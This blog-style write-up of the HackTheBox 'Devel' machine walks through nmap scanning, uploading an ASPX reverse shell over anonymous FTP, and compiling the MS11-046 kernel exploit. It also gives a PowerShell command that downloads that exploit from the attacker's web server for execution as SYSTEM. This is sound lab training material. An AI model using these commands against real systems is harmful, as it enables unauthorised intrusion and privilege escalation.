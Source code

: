 ```yaml
---
layout: single
title: HackTheBox - Devel Writeup
permalink: /hackthebox-devel-writeup/
excerpt: "Devel is an easy machine on the hackthebox platform. I can upload a webshell in FTP with anonymous login and get administrator/system using the Windows Kernel Exploits."
classes: wide
header:
  teaser: "/assets/images/htb/devel/home_img.png"
  teaser_home_page: true
categories:
  - hackthebox
  - windows
  - infosec
  - writeup
tags:
  - aspx-reverse-shell
  - CVE-2011-1249
---
```



![hackthebox devel title card](/assets/images/htb/devel/home_img.png)


# <u>1:Enumeration</u>

- scan top 1000 ports

```sql
nmap -sC -sV -oN nmap/initial 10.10.10.5
```

- the result

![1](/assets/images/htb/devel/1000.png)

- all ports scan

```sql
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.5
```

- the result

![1](/assets/images/htb/devel/all_ports.png)

### <u>Open Ports</u>
- We all know both Nmap scan shows us, just 2 open ports
- 21/FTP = Microsoft ftpd
- 80/HTTP = Microsoft IIS httpd 7.5

## <u>FTP</u>
- File Transfer Protocol [FTP] on this machine is open and allowed login as anonymous
- Let's connect to it

![1](/assets/images/htb/devel/ftp.png)

- Well, I can't find anything on it
- So, I'm thinking this FTP might have been connected to the other port [port 80].

## <u>WebPage</u>
- As we saw the image above. It has a `welcome.png` image.
- Let's put that on the `URL`

![1](/assets/images/htb/devel/welcome.png)

- COOL!

# <u>2:Foothold/Gaining Access</u>

## <u>ASPX Reverse Shell</u>
- Let's try to get the reverse shell 
- So, this is `Microsoft IIS` 
- with light googling. I've found the [aspx reverse shell](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
- Source
	- [Github - borjmz](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)
<br>
- I'm gonna put the reverse shell on the FTP server
- Then, execute it with the `curl` command

![1](/assets/images/htb/devel/got_shell.png)

- I'm in as `iis apppool\web`

## <u>systeminfo</u>

- Let's enumerate this machine.
- First, I'm gonna run the `systeminfo` command
- the result

![1](/assets/images/htb/devel/systeminfo.png)

- OK! WOW!
- we're on Microsoft Windows 7 and it's a really old machine.
- Again. I'm gonna google around.

# <u>3:Privilege Escalation</u>

## <u>MS11-046</u>

![1](/assets/images/htb/devel/exploit-db.png)

- I've found this exploit
- Let's download it and compile the exploit <br>
-> don't worry, they got the compiling instructions

### <u>Compiling Exploit</u>
> <font color="yellow">Note: </font> If you got this response after try to compiling `command not found: i686-w64-mingw32-gcc` <br>
> Just run this command to install  it`apt install mingw-w64` 

- This is the command for compiling
```bash
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```
- After it is done, you got the binary in your directory called `MS11-046.exe`

### <u>Transfer the Exploit</u>
- Turns out, this machine has `PowerShell`
- I'm gonna host my file with a python webserver

```python
python3 -m http.server
```
- Let's transfer the exploit using PowerShell with this command.
- Source <br>
	-> [Jourdant - 3 ways to download files with PowerShell](https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell)

```powershell
powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.15:8000/MS11-046.exe', 'c:\users\public\documents\lol.exe')"
```
- Then, execute it.

![1](/assets/images/htb/devel/exe.png)

- YES! I'm become `SYSTEM`

## <u>User Flag</u>

![1](/assets/images/htb/devel/user.png)

## <u>Administrator Flag</u>

![1](/assets/images/htb/devel/admin.png)

# <u>4:Conclusion</u>
I've learned a lot today. If you using File Transfer Protocol [FTP] make sure to configure it properly and avoid using anonymous access. Lastly, just update the system or even better use the new and up-to-date version of windows.

I have a fun time doing this machine and I hope you guys do too. Bye ;)